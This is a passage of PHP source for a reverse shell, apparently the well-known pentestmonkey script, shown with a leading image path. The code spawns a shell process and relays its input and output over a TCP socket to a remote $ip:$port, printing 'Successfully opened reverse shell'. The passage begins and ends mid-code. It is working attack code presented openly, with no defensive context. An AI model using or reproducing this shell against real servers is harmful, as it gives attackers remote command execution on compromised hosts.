 ```php
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
```